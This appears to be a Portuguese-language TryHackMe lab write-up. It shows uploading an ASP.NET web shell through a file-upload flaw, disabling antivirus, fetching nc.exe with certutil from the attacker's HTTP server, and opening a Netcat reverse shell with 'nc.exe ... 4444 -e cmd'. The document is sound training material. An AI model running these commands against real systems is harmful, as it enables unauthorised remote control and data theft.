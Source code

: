 # Exploração da Máquina — TryHackMe Smith Exploitation Basic

## Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1T6XcA_A--FMGiI9jP0G8Lij6B2kIaHFi/view?usp=classroom_web&authuser=0)
- 🔍 **Prova:** [TryHackMe - Smith Exploitation Basic](https://tryhackme.com/jr/5m1thexploitationbasic)

---
# Depois de levantar informações específicas como o lugar onde tem uma falha para upar arquivos e deletar, o lugar onde esses arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo: tudo favorável para subir o shell.

## Contexto para subir o shell:
Sabendo que a tecnologia do site é ASP.NET, podemos procurar um Shell que seja `.ASPNET.aspx`, upar no servidor e acessar ele para injetar comandos.

## 1️⃣ - Procurar no Google o Shell: `github: shell for ASP.aspx`  
## 2️⃣ - Desligar o antivírus do computador.  
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)

## 3️⃣ - Salvar esse shell no arquivo `.aspx`.  
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)

## 💻 Com ele em mãos, é só subir no servidor e acessar.

Acessando o local que descobrimos no DIRSEARCH que é o `magnam` (faz o trabalho do banco de dados).  
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)

## ⬆️ Upando arquivo:  
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)

## ✅ Arquivo UPADO, só acessar agora:  
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)

## 🔎 Acessando o arquivo:  
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)

## ⚠️ `shell.aspx` subiu, porém você ainda não tem controle total para navegar nos diretórios e fazer uma enumeração de arquivos.

## 💡 Próximo passo:  
- Baixar o `nc.exe`.
- Colocar em uma pasta no seu próprio Windows.
- Instalar o Python.
- Colocar o arquivo `nc.exe` lá dentro.
- Iniciar o servidor Python com o `nc.exe` disponível para download.  
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)

## 📂 Coloquei em uma pasta com o nome "Nova Pasta" e iniciei o servidor Python pelo CMD do Windows.  
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)

## 📥 Agora para baixar usando o shell que subi, use o comando:

```
certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

O Certutil serve para baixar arquivos no Windows. Como está em um servidor HTTP,
basta informar o IP do seu PC e o nome do arquivo para ele salvar no `users/public`
com o nome `nc.exe`.
```

## ✅ Depois de rodar o comando, o sistema vai confirmar que deu sucesso:  
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)

## 📁 Agora é só verificar se ele realmente foi baixado na pasta pública:  
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)

## 🔊 Arquivo upado, precisamos acessar a shell do nosso Windows. Coloque o `nc` para escutar na porta `4444`:  
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)

## ⚡ Porta escutando, basta executar o comando:

```
c:\users\public\nc.exe 192.168.100.168 4444 -e cmd

Esse comando executa o `nc.exe`,
passando o IP e a porta para conectar e o `-e` para executar o `cmd` do Windows.
```

## 📡 Após executar o comando, a porta que está escutando recebe o `cmd`:  
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)

## 💻 Agora é só fazer a enumeração de arquivos e encontrar a flag do arquivo sensível:  
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)

## 📦 Arquivo sensível encontrado:  
![image](https://github.com/user-attachments/assets/12899b1c-0cff-4350-b986-3f8b8d5d0c39) 
![image](https://github.com/user-attachments/assets/822f7405-3985-4a8a-80b7-05fbe0a33b31)
